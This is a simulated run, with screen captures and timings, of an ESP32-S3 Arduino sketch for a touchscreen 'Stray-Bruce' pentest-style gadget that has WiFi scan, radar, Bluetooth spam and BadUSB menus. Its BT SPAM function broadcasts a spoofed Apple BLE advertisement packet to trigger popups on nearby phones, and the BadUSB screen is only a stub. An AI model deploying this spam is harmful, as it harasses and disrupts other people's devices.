
The sketch below on a simulated ESP32-S3. Shown: 320×240 colour display. The test bench sets the inputs (shaded band). A WiFi scan finds three made-up networks; random numbers use the default seed unless the sketch sets one; USB keyboard and mouse output is not drawn.

Above: at 1.4 s.
1.5 s: touch panel pressed at 38 % / 30 % of its raw x / y range
At 2.5 s:

4.5 s: touch panel pressed at 13 % / 90 % of its raw x / y range
At 5.8 s:

6.1 s: touch panel pressed at 13 % / 10 % of its raw x / y range
At 7.2 s:

7.6 s: touch panel pressed at 62 % / 30 % of its raw x / y range
At 8.3 s:

10.6 s: touch panel pressed at 13 % / 90 % of its raw x / y range
At 12.4 s:

13.4 s: touch panel pressed at 38 % / 10 % of its raw x / y range
At 14.0 s:

Timing chart, 0 to 15.9 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.5 s, the display: changes after 0.08 s (image 1)
- after the input at 4.5 s, the display: changes after 0.11 s (image 2)
- after the input at 6.1 s, the display: changes at once (image 3)
- after the input at 7.6 s, the display: changes after 0.08 s (image 4)
- after the input at 13.4 s, the display: changes at once (image 6)
- what the display in image 1 shows lasts 2.0 s, from 1.6 s to 3.6 s

The sketch:

Stray-Bruce.ino
```cpp
#include "Adafruit_GFX.h"
#include "Adafruit_ILI9341.h"
#include <Wire.h>
#include <Adafruit_FT6206.h>
#include <WiFi.h>
#include <NimBLEDevice.h>
#include "USB.h"
#include "USBHIDKeyboard.h"

// --- ПИНЫ (Твоя база) ---
#define TFT_CS 42
#define TFT_DC 40
#define TFT_RST 41
#define STRAY_YELLOW 0xFFE0
#define STRAY_ORANGE 0xFD20

Adafruit_ILI9341 tft = Adafruit_ILI9341(TFT_CS, TFT_DC, 39, 38, TFT_RST);
Adafruit_FT6206 ts = Adafruit_FT6206();
USBHIDKeyboard Keyboard;

// Глобальные переменные
int current = 0;
int state = 0;
const char* menu[] = {"WIFI SCAN", "RADAR", "BT SPAM", "BAD USB", "SYSTEM"};

float radarAngle = 0;
bool isSpamming = false;
NimBLEAdvertising *pAdvertising;
uint8_t apple_packet[] = { 0x1E, 0xFF, 0x4C, 0x00, 0x07, 0x19, 0x07, 0x02, 0x20, 0x75, 0xAA, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12 };

int graphX = 11;
int lastY = 180;
unsigned long lastGraphUpdate = 0;

void setup() {
  tft.begin();
  tft.setRotation(1);
  Wire.begin(2, 1);
  ts.begin(40);
  WiFi.mode(WIFI_STA);
  WiFi.disconnect();
  USB.begin();
  drawMain();
}

// --- ЛОГИКА ВЫХОДА ---
void drawExitButton() {
  tft.fillRect(0, 190, 50, 50, ILI9341_RED);
  tft.setTextColor(ILI9341_WHITE); tft.setTextSize(2);
  tft.setCursor(18, 205); tft.print("X");
}

bool checkExit(int tx, int ty) {
  // Универсальная зона выхода для Wokwi (Левый нижний угол)
  if (tx < 75 && ty > 170) return true;
  return false;
}

// --- ПРИЛОЖЕНИЯ ---

void runScanner() {
  state = 1; tft.fillScreen(ILI9341_BLACK);
  drawExitButton();
  tft.setCursor(60, 10); tft.setTextColor(STRAY_YELLOW); tft.setTextSize(1);
  tft.println("SCANNING WIFI...");
  int n = WiFi.scanNetworks();
  for (int i = 0; i < n && i < 10; i++) {
    tft.setCursor(60, 30 + (i*15));
    tft.setTextColor(STRAY_YELLOW); tft.print(i+1); tft.print(": ");
    tft.setTextColor(ILI9341_WHITE); tft.println(WiFi.SSID(i));
  }
}

void runRadar() {
  state = 1; tft.fillScreen(ILI9341_BLACK);
  drawExitButton();

  while(state == 1) {
    int n = WiFi.scanNetworks();

    // ОЧИСТКА: Стираем старые точки перед новым сканом
    tft.fillCircle(160, 120, 100, ILI9341_BLACK);
    tft.drawCircle(160, 120, 100, STRAY_YELLOW);
    tft.drawCircle(160, 120, 60, STRAY_YELLOW);
    tft.drawLine(60, 120, 260, 120, STRAY_YELLOW);
    tft.drawLine(160, 20, 160, 220, STRAY_YELLOW);

    for(int a=0; a<5; a++) {
      float oldAngle = radarAngle - 0.3;
      tft.drawLine(160, 120, 160+cos(oldAngle)*100, 120+sin(oldAngle)*100, ILI9341_BLACK);
      tft.drawLine(160, 120, 160+cos(radarAngle)*100, 120+sin(radarAngle)*100, STRAY_YELLOW);
      radarAngle += 0.3;

      for (int i = 0; i < n && i < 8; i++) {
        int d = map(WiFi.RSSI(i), -100, -30, 100, 10);
        float pAng = i * (6.28 / (n > 0 ? n : 1));
        uint16_t dotColor = (WiFi.SSID(i).indexOf("Wokwi") >= 0) ? ILI9341_RED : STRAY_YELLOW;
        tft.fillCircle(160 + cos(pAng) * d, 120 + sin(pAng) * d, 4, dotColor);
      }

      if (ts.touched()) {
        TS_Point p = ts.getPoint();
        int tx = map(p.y, 0, 320, 0, 320);
        int ty = map(p.x, 0, 240, 0, 240);
        if (checkExit(tx, ty)) { drawMain(); return; }
      }
      delay(20);
    }
  }
}

void startSpam() {
  NimBLEDevice::init("Stray-Bruce");
  pAdvertising = NimBLEDevice::getAdvertising();
  NimBLEAdvertisementData advertData;
  advertData.addData(apple_packet, sizeof(apple_packet));
  pAdvertising->setAdvertisementData(advertData);
  pAdvertising->start();
  isSpamming = true;
}

void stopSpam() {
  if (pAdvertising) pAdvertising->stop();
  NimBLEDevice::deinit(true);
  isSpamming = false;
}

void runBTSpam() {
  state = 1; tft.fillScreen(ILI9341_BLACK);
  drawExitButton();
  tft.setTextColor(STRAY_ORANGE); tft.setTextSize(2);
  tft.setCursor(60, 15); tft.println("APPLE BT SPAM");
  tft.drawFastHLine(0, 45, 320, STRAY_ORANGE);

  tft.setTextSize(1); tft.setCursor(60, 60); tft.print("STATUS: ");
  if (isSpamming) { tft.setTextColor(0x07E0); tft.println("ATTACKING..."); }
  else { tft.setTextColor(ILI9341_RED); tft.println("READY"); }

  tft.drawRect(90, 100, 150, 80, STRAY_ORANGE);
  tft.setCursor(125, 135); tft.setTextSize(2);
  tft.print(isSpamming ? "STOP" : "START");
}

void runBadUSB() {
  state = 1; tft.fillScreen(ILI9341_BLACK);
  drawExitButton();
  tft.setTextColor(STRAY_ORANGE); tft.setTextSize(2);
  tft.setCursor(60, 15); tft.println("BAD USB MODE");
  tft.drawRect(70, 100, 180, 60, STRAY_YELLOW);
  tft.setCursor(100, 125); tft.print("RUN PAYLOAD");
}

void runSystemInfo() {
  state = 1; tft.fillScreen(ILI9341_BLACK);
  drawExitButton();
  tft.setTextColor(STRAY_YELLOW); tft.setTextSize(2);
  tft.setCursor(60, 15); tft.println("SYSTEM STATUS:");
  tft.drawFastHLine(0, 45, 320, STRAY_YELLOW);
  tft.setTextSize(1);
  tft.setCursor(60, 55); tft.print("USER: STRAY_2025");
  tft.setCursor(60, 75); tft.print("CHIP: S3 N16R8 | NORILSK");
  tft.drawRect(60, 130, 250, 80, STRAY_YELLOW);
  graphX = 61;
  tft.setTextColor(0x07E0);
  tft.setCursor(60, 220); tft.println("STRAY-BRUCE OS v11.1 Clean Fix");
}

void updateGraph() {
  if (millis() - lastGraphUpdate > 50) {
    if (graphX > 300) { tft.fillRect(61, 131, 248, 78, ILI9341_BLACK); graphX = 61; }
    int val = random(140, 205);
    tft.drawLine(graphX, lastY, graphX + 2, val, 0x07E0);
    lastY = val; graphX += 2; lastGraphUpdate = millis();
  }
}

// --- ГЛАВНОЕ МЕНЮ ---

void drawMain() {
  state = 0; if (isSpamming) stopSpam();
  tft.fillScreen(ILI9341_BLACK);
  tft.fillRect(0, 0, 320, 40, STRAY_YELLOW);
  tft.setTextColor(ILI9341_BLACK); tft.setTextSize(2);
  tft.setCursor(65, 12); tft.print("STRAY-BRUCE v11.1");
  tft.drawRect(60, 85, 200, 80, STRAY_YELLOW);
  drawMainText();
  tft.fillTriangle(15, 125, 45, 95, 45, 155, STRAY_YELLOW);
  tft.fillTriangle(305, 125, 275, 95, 275, 155, STRAY_YELLOW);
}

void drawMainText() {
  tft.fillRect(62, 87, 196, 76, ILI9341_BLACK);
  tft.setTextColor(STRAY_YELLOW); tft.setTextSize(2);
  int textLen = strlen(menu[current]);
  tft.setCursor(160 - (textLen * 6), 115); tft.print(menu[current]);
}

void loop() {
  if (ts.touched()) {
    TS_Point p = ts.getPoint();
    int tx = map(p.y, 0, 320, 0, 320);
    int ty = map(p.x, 0, 240, 0, 240);

    if (state == 0) { // Навигация в меню
      if (tx < 60) { current = (current > 0) ? current - 1 : 4; drawMainText(); delay(250); }
      else if (tx > 260) { current = (current + 1) % 5; drawMainText(); delay(250); }
      else if (tx > 60 && tx < 260 && ty > 80 && ty < 160) {
        if (current == 0) runScanner();
        else if (current == 1) runRadar();
        else if (current == 2) runBTSpam();
        else if (current == 3) runBadUSB();
        else if (current == 4) runSystemInfo();
        delay(300);
      }
    }
    else if (state == 1) { // Логика выхода
      if (checkExit(tx, ty)) { drawMain(); delay(300); }

      // Кнопки внутри BT Spam
      if (current == 2 && tx > 90 && tx < 240 && ty > 100 && ty < 180) {
        if (!isSpamming) startSpam(); else stopSpam(); runBTSpam(); delay(400);
      }
    }
  }
  if (state == 1 && current == 4) updateGraph();
}
```
